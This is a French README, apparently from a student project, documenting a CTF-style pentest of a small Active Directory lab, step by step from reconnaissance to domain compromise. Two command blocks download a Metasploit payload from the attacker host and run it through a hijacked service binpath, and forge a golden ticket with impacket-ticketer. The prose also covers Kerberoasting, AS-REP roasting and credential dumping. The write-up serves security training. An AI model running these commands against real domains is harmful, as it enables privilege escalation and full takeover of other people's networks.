






# Réalisation d'un pentest dans un environnement d'entreprise simplifié

Un client vous a missionné pour réaliser un pentest de son environnement interne. Vous devez élaborer un scénario de compromission de l'environnement tout entier, remonter chacune des vulnérabilités rencontrées et écrire une synthèse managériale qui permettra a une personne non technique de comprendre les risques présents sur le périmètre.

## Auteur

Roblot Jean-Philippe - <jroblot.simplon@proton.me>
Drula Kevin - <kdrula.simplon@proton.me>

## Version

04/03/2024 - V1R0

## Releases


Powered by <https://shields.io>

## Contexte

En tant que analyste SOC, réalisation d'un CTF comprenant les attaques Active Directory les plus courantes.  
Le réseau comprend:
- Deux windows 10
- Deux windows serveur 2016 (Controleur de domaine + serveur)

Les quatres machines peuvent être entièrement compromises.
Afin de suivre en temps réel la progression des équipes, un environnnement type CTFd a été mis en place. Il y a 9 challenges a réaliser.
A chaque challenge réussi, il faudra prendre des notes technique sur la manière dont vous avez exploité les vulnérabilités.

## Activités

Reconnaissance de l'nvironnement avec Nmap


On identifie le contrôleur de domaine avec Kerberos sur le port 88


Utiliser le compte anonyme par défaut de l'AD pour rechercher des dossiers partagés


Utiliser SMBClient avec l'utilisateur anonyme pour voir le contenu du dossier "John"


Compte.txt  


Todo.txt   


Récupérer la liste d'utilisateurs de l'AD


Tester les mdp faible : user=mdp


Utiliser WinRM avec le compte "John"
  
Scan des vuln avec WinPEAS
Récupérer la SAM

Identifier les comptes possédant un SPN


Utiliser ce compte pour générer un ticket et augmenter nos privilèges


Récupérer le mot de passe grâce au ticket avec John the Ripper


Chercher dans l'AD un utilisateur avec pre-auth désactivé et récupérer son mot de passe


Créer un payload avec Metasploit > msvenom


Set le payload avec msf6 et le mettre en écoute


Configurer le binpath d'un service vulnérable pour lancer le payload côté client (téléchargé au préalable depuis la Kali)


```bash
# Passer la Kali en mode server
python3 -m hhtp.server 80

#evil-WinRM 192.168.0.201
wget http://192.168.0.97/cheh.exe
sc.exe config John_work39 binpath= "C:\Users\John\Documents\cheh.exe"
./cheh.exe
start-service John_work39
```


NTDS.DIT pour récupérer le hash de KRBTGT






install krb5-user  


Générer le golden ticket avec Ticketer

```bash
impacket-ticketer -domain secure.intra -domain-sid S-1-5-21-2931287595-4144871426-66956829 -aesKey 0b994712e4f81aa3e8ce3a5faf2c88fc894ecbaa6109a30207dc619ea532ff3a -dc-ip 192.168.0.200 -debug Administrateur
```

export ticket  


Ajouter le hostname dans /etc/hosts pour résoudre le domaine


Utiliser le Golden Ticket pour se connecter au contrôleur de domaine


### Sources

https://book.hacktricks.xyz/welcome/readme  
https://johndcyber.com/how-to-create-a-reverse-tcp-shell-windows-executable-using-metasploit-56d049007047